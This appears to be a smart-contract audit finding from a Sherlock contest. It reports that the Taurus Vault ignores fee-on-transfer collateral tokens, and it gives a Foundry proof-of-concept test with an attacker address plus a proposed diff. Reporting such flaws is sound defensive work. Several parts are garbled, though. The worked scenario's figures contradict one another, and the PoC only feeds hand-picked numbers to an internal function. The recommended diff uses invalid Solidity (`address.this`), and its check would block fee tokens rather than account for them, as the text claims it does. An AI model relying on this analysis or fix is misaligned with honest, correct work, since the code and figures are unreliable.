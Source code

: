 bytes032

medium

# Vault doesnt account for fee on transfer tokens, which can affect the accounting logic

## Summary

If the collateral token has a fee on transfer, the vault will receive less tokens than it expects to.

## Vulnerability Detail
When a user transfers collateral via `modifyPosition`, collateral is added to the user's balance via the following code snippet:
`userDetails[_account].collateral += _collateralDelta; IERC20(collateralToken).safeTransferFrom(msg.sender, address(this), _collateralDelta);`

However, if the collateral token has a fee on transfer, the protocol will receive `_collateralDelta - fee` of the collateral transferred, but the user's collateral balance will not reflect this deduction.

Consider the following scenario:
1. Collateral token has 0.1e18
2. Alice deposits 1 ether, hence `userDetails[alice].collateral` equals 1.2e18 
3. However, due to the fee the protocol receives 1.11 e18

As a consequence, even though Alice should be liquidatable now - she cannot be liquidated, because the protocol doesn't account for the difference.

Here's a POC in Foundry prooving the point.

https://github.com/sherlock-audit/2023-03-taurus/blob/main/taurus-contracts/test/Vault.t.sol

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../contracts/TAU.sol";
import "../contracts/Controller/Controller.sol";
import "../contracts/Tokenomics/FeeSplitter.sol";
import "../contracts/Libs/Constants.sol";
import "../contracts/Mocks/MockVault.sol";
import "../contracts/Oracle/PriceOracleManager.sol";
import "../contracts/Oracle/Wrapper/CustomOracleWrapper.sol";
import "../contracts/Oracle/CustomPriceOracle/CustomPriceOracle.sol";
import "../contracts/Mocks/MockERC20.sol";


contract Vault is Test {
    TAU tauToken;
    Controller controller; 
    FeeSplitter feeSplitter;

    PriceOracleManager oracleManager;
    CustomOracleWrapper oracleWrapper;
    CustomPriceOracle customOracle;
    MockERC20Fee collateral;
    MockVault vault;

    address governance = makeAddr("governance");
    address multisig = makeAddr("multisig");


    function setUp() public {
        tauToken = new TAU(governance);
        controller = new Controller(address(tauToken), address(tauToken), governance, multisig);
        feeSplitter = new FeeSplitter(address(controller));
        vault = new MockVault();
                collateral = new MockERC20Fee("MOCK", "MCK", 18);

        vault.initialize(address(controller), address(tauToken), address(collateral));

        oracleManager = new PriceOracleManager();
        oracleWrapper = new CustomOracleWrapper();
        customOracle = new CustomPriceOracle("oracle", address(collateral), 18);
        customOracle.registerTrustedNode(address(this));
        customOracle.updatePrice(1 ether);

        oracleWrapper.addOracle(address(collateral), address(customOracle));

        oracleManager.setWrapper(address(collateral), address(oracleWrapper));

        vm.prank(governance);
        controller.setAddress(Constants.PRICE_ORACLE_MANAGER, address(oracleManager));

        vm.prank(governance);
        tauToken.setMintLimit(address(vault), type(uint256).max);
    }


    function test() public {
        address attacker = makeAddr("attacker");
        collateral.mint(attacker, 2 ether);
        vm.prank(attacker);
        collateral.approve(address(vault), type(uint256).max);
        
        
        vm.prank(attacker);
        vault.modifyPosition(1.21 ether, 1, true, true);

        // Attacker collateral is 1.11 ether
        
        // Account is liquidatable, but function renders it as healthy.
        vm.expectRevert();
        vault._calcLiquidation(1.21 ether, 1 ether, 1 ether);

        (uint256 collateralToLiquidate, uint256 liquidationSurcharge) = vault._calcLiquidation(1.11 ether, 1 ether, 1 ether);

        assertEq(collateralToLiquidate == 1.11e18, true);
    }

}
```

## Impact

Due to the fact that the protocol doesn't support fee on transfer tokens, a substantial part of its accounting logic will behave unexpectedly.

## Code Snippet
https://github.com/sherlock-audit/2023-03-taurus/blob/main/taurus-contracts/contracts/Vault/BaseVault.sol#L310-L313

## Tool used
Manual review

## Recommendation

The recommendation to address this vulnerability is to add the code snippet mentioned above to ensure that the protocol accounts for any fees on transfer tokens correctly.

```diff
                userDetails[_account].collateral += _collateralDelta;
+                uint256 balanceBefore = IERC20(collateralToken).balanceOf(address.this);
                IERC20(collateralToken).safeTransferFrom(msg.sender, address(this), _collateralDelta);
+                uint256 balanceAfter = IERC20(collateralToken).balanceOf(address.this);

+                require(balanceAfter - _collateralDelta == balanceBefore);
```
